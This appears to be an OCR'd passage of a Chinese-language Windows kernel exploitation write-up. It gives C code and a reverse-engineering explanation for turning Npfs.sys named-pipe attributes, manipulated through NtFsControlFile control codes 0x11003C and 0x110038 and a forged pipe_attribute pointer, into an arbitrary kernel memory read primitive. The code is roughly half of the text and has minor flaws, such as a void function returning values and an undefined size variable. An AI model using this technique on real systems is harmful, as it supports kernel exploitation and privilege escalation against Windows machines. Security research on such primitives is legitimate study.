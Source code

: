 ```
  LIST_ENTRY list;
  char *AttributeName;
  __int64 ValueSize;
  char *AttributeValue;
  char data[1];
};
//任意读内核态内存
void pp_exploit_arbitrary_read(xploit_t * xploit, uintptr_t where, char * out, size_t size)
{
     xploit->fake_pipe_attribute->ValueSize = ask_size;
    xploit->fake_pipe_attribute->AttributeValue = (char *)where;
    if (!get_pipe_attribute(&xploit->ghosts->pipes[xploit->ghost_idx], arb_read, 0x1000))
    {
        fprintf(stderr, "[-] Failed to set pipe attribute !");
        exit(0);
    }
    memcpy(out, arb_read, size);
}
void pipe_init(PIPES* pipes) {
	if (!CreatePipe(&pipes->read, &pipes->write, NULL, 0x1000)) {
		printf("createPipe fail\n");
		return 1;
	}
	return 0;
}
// 写入PipeAttribution
int pipe_write_attr(PIPES* pipes, char* name, void* value, int total_size) {
	size_t length = strlen(name);
	memcpy(tmp_buffer, name, length + 1);
	memcpy(tmp_buffer + length + 1, value, total_size - length - 1);
	IO_STATUS_BLOCK  statusblock;
	char output[0x100];
	int mystatus = NtFsControlFile(pipes->write, NULL, NULL, NULL,
		&statusblock, 0x11003C, tmp_buffer, total_size,
		output, sizeof(output));
	if (!NT_SUCCESS(mystatus)) {
		printf("pipe_write_attr fail 0x%x\n", mystatus);
		return 1;
	}
	return 0;
}
// 读取PipeAttribution
int pipe_read_attr(PIPES* pipes, char* name, char* output,int size) {
	IO_STATUS_BLOCK statusblock;
	int mystatus = NtFsControlFile(pipes->write, NULL, NULL, NULL,
		&statusblock, 0x110038, name,strlen(name)+1,
		output, size);
	if (!NT_SUCCESS(mystatus)) {
		printf("pipe_read_attr fail 0x%x\n", mystatus);
		return 1;
	}
	return 0;
}
```
内核态PipeStream命名管道驱动的具体实现位于Npfs.sys文件中,通过堆相关代码的逆向发现,调用FsControlCode函数操作码0x11003C,0x110038可以用于读取和写入pipe_attribute相关结构字段的属性,其中AttributeName和AttributeValue类似于一种键值对的字典数据结构,在写入attribute过程中,命名管道驱动通过ExAllocatePoolWithTag申请输入缓冲区大小加上pipe_attribute头部大小内存保存于返回pipe_attribute结构体指针,并拷贝缓冲区输入数据至pipe_attribute->data,当AttributeName大小小于8时AttributeName直接保存在此字段中,如果大于8则计算AttributeName结束与'\0'字符串结尾位置作为AttributeValue的起始地址,用得出的申请Pool相对地址(也就是相对于pipe_attribute结构体指针地址)偏移量保存于AttributeName和AttributeValue这2个指针中.NpSetAttribute逆向结果显示当调用输入缓冲区AttributeValue长度为0时,系统会循环遍历attribute->list.Flink链表节点,链表的每个节点也都是一个pipe_attribute结构,如果目标链表AttributeName与要找的输入缓冲区AttributeName相同,就调用ExFreePoolWithTag释放这个链表对应的内存,对于读取attribute,也同样是遍历链表判断是否与AttributeName相同,如果是就拷贝AttributeValue指向的内存至输出缓冲区.由于命名管道驱动并不提供写入AttributeValue指向内存地址数据的功能,所以我们只能得到一个任意读的原语.